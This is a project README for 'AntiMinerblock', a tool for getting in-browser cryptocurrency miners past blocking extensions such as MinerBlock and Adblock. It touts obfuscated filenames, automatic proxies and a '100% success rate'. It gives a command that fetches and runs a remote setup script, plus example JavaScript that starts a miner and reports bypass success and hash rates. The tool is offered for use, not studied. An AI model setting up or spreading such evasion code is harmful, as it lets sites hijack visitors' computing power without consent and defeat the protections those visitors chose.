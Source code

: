 # AntiMinerblock
This script attempts to bypass extensions or network blocks that prevent the use of online cryptocurrency miners.

## 100% effectiveness from tested extensions
* MinerBlock
* AntiMiner
* Adblock (all lists enabled)
* Adblock Plus

## Features
* 100% success rate
* Obfuscates filenames per server
* Automatically creates proxy
* Random port
* Interactive setup

## Installation
### Ubuntu/Unix
First, make sure you have Node.js installed:
https://nodejs.org/en/download/package-manager/

Navigate to your server's scripts directory and run
```bash
bash <(curl -s https://raw.githubusercontent.com/SkyrisBactera/AntiMinerblock/master/setup.sh)
```
Then, add the script tag that the file generates to every HTML file you want to be protected. That's it!
### Windows
Not implemented yet (you can use cygwin for now)

## Usage
Call loadCryptominer, which will return a miner, and will return a value 0 to 4 referring to whether or not it worked.
```
0 - Remote coinhive
1 - Local coinhive with proxy
2 - Authedmine
3 - Crypto-loot
4 - Cloudcoins
5 - All blocked
6 - Script not blocked, but failure creating miner instance
```

Example:
```javascript
loadCryptominer(function(miner, status) {
  //Code that mines
  //For example:
  if (status == 5 || status == 6) {
    console.log("TEST FAILED!")
  } else {
    console.log("SUCCESSFULLY BYPASSED PROTECTION!")
  }
  miner.start();
  // Update stats once per second
  setInterval(function() {
    var hashesPerSecond = miner.getHashesPerSecond();
    var totalHashes = miner.getTotalHashes();
    var acceptedHashes = miner.getAcceptedHashes();
    console.log(hashesPerSecond, totalHashes, acceptedHashes)
    }, 1000);
});
```
## Donate!
If you appreciate this project, feel free to send me some Monero at:
```424kUkn7pU7SVF4qmbzVt6fLPRFw6Q1v7RmVq4qE9sE2V5dyhZoGdWHDUFui85SfhVTfmDN3CzcYDQSwo41z3AuLDzU3qQt```

or just use PayPal:
```davis@skyrisbactera.com```

